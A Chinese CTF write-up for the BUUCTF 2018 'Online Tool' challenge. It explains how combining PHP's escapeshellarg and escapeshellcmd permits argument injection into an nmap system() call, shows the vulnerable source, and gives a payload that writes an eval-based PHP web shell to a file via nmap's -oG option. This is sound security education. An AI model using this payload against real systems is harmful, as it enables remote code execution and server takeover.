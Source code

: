 ```yaml
---
title: "[BUUCTF 2018]Online Tool"
date: 2020-05-20 12:51:01
tags: Web
---
```


代码审计php

**escapeshellarg和escapeshellcmd使用不当导致rce**

两个函数配合使用就会导致多个参数的注入。

> escapeshellarg和escapeshellcmd的功能
>
> **escapeshellarg**
>
> 1.确保用户只传递一个参数给命令
>  2.用户不能指定更多的参数一个
>  3.用户不能执行不同的命令
>
> **escapeshellcmd**
>
> 1.确保用户只执行一个命令
>  2.用户可以指定不限数量的参数
>  3.用户不能执行不同的命令

关于escapeshellarg和escapeshellcmd使用不当导致rce

在https://paper.seebug.org/164/有详解

我们在这摘取

> 1. 传入的参数是：172.17.0.2' -v -d a=1
> 2. 经过escapeshellarg处理后变成了'172.17.0.2'\'' -v -d a=1'，即先对单引号转义，再用单引号将左右两部分括起来从而起到连接的作用。
> 3. 经过escapeshellcmd处理后变成'172.17.0.2'\\'' -v -d a=1\'，这是因为escapeshellcmd对\以及最后那个**不配对儿**的引号进行了转义：http://php.net/manual/zh/function.escapeshellcmd.php
> 4. 最后执行的命令是curl '172.17.0.2'\\'' -v -d a=1\'，由于中间的\\被解释为\而不再是转义字符，所以后面的'没有被转义，与再后面的'配对儿成了一个空白连接符。所以可以简化为curl 172.17.0.2\ -v -d     a=1'，即向172.17.0.2\发起请求，POST 数据为a=1'。
>
> 回到mail中，我们的 payload 最终在执行时变成了'-fa'\\''\( -OQueueDirectory=/tmp -X/var/www/html/test.php \)@a.com\'，分割后就是-fa\(、-OQueueDirectory=/tmp、-X/var/www/html/test.php、)@a.com'，最终的参数就是这样被注入的。
>
> 使用escapeshellcmd / escapeshellarg时不可能执行第二个命令。
>
> 但是我们仍然可以将参数传递给第一个命令。
>
> 这意味着我们也可以将新选项传递给命令。
>
> 利用漏洞的能力取决于目标可执行文件。

```php
<?php

if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $_SERVER['REMOTE_ADDR'] = $_SERVER['HTTP_X_FORWARDED_FOR'];
}

if(!isset($_GET['host'])) {
    highlight_file(__FILE__);
} else {
    $host = $_GET['host'];
    $host = escapeshellarg($host);
    $host = escapeshellcmd($host);
    $sandbox = md5("glzjin". $_SERVER['REMOTE_ADDR']);
    echo 'you are in sandbox '.$sandbox;
    @mkdir($sandbox);
    chdir($sandbox);
    echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host);
}> 
```

> HTTP_X_FORWARDED_FOR获取到的IP地址
>
> REMOTE_ADDR代表着客户端的IP
>
> 这两个都为比较常见的服务器获取ip

> echo system(“nmap -T5 -sT -Pn –host-timeout 2 -F “.$host);

这有个system来执行命令有传参。

本意是要输入ip参数来进行扫描，我们可以利用两个函数的漏洞，来过滤。

**-oG**可以实现将命令和结果写到文件

payload可以通过写一个Shell到文件中

由此构造payload：

> '<?php @eval($_POST["hack"]); ?> -oG hack.php '

转化为：

> ''[\\''\<\?php](file://''/ @eval\(\$_POST\["hack"\]\)\; \?\> -oG hack.php '\\'''

输出为：

> \<?php @eval($_POST[hack]); ?> -oG hack.php \\

菜刀连接即可

参考链接：

http://lz2y.top/index.php/2020/03/%E5%88%B7%E9%A2%98%E8%AE%B0%E5%BD%95-buuctf-2018online-tool/

https://note.redmango.top/Online%20Tool(BUUCTF%202018)/

https://paper.seebug.org/164/

https://blog.csdn.net/qq_26406447/article/details/100711933

https://blog.csdn.net/weixin_44077544/article/details/102835099